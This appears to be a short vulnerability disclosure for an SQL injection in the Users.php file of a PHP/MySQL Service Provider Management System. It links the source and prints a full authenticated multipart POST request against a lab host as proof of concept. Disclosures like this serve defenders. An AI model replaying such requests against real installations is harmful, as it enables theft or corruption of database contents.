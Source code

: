 

The Service Provider Management System has an SQL injection vulnerability that can be exploited by an attacker to steal information or corrupt a database if they are authenticated.





Source code address：https://www.sourcecodester.com/php/16501/service-provider-management-system-using-php-and-mysql-source-code-free-download.html



The vulnerability is located in the /classes/Users.php file, and the behavior of SQL statement concatenation can be seen in the code snippet.

![image-20250326233403662](images/image-20250326233403662.png)





Vulnerability verification：

```
POST /php-spms/classes/Users.php?f=save HTTP/1.1
Host: 192.168.80.152
Content-Length: 851
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary1DJJzgzjbq52p1Xv
Origin: http://192.168.80.152
Referer: http://192.168.80.152/php-spms/admin/?page=user/manage_user
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=suk69fhqi40gc49c7nb515t7il
Connection: keep-alive

------WebKitFormBoundary1DJJzgzjbq52p1Xv
Content-Disposition: form-data; name="id"


------WebKitFormBoundary1DJJzgzjbq52p1Xv
Content-Disposition: form-data; name="firstname"

1
------WebKitFormBoundary1DJJzgzjbq52p1Xv
Content-Disposition: form-data; name="middlename"

1
------WebKitFormBoundary1DJJzgzjbq52p1Xv
Content-Disposition: form-data; name="lastname"

1
------WebKitFormBoundary1DJJzgzjbq52p1Xv
Content-Disposition: form-data; name="username"

1
------WebKitFormBoundary1DJJzgzjbq52p1Xv
Content-Disposition: form-data; name="password"

1
------WebKitFormBoundary1DJJzgzjbq52p1Xv
Content-Disposition: form-data; name="type"

1
------WebKitFormBoundary1DJJzgzjbq52p1Xv
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundary1DJJzgzjbq52p1Xv--

```

 ![image-20250326233252002](images/image-20250326233252002.png)



































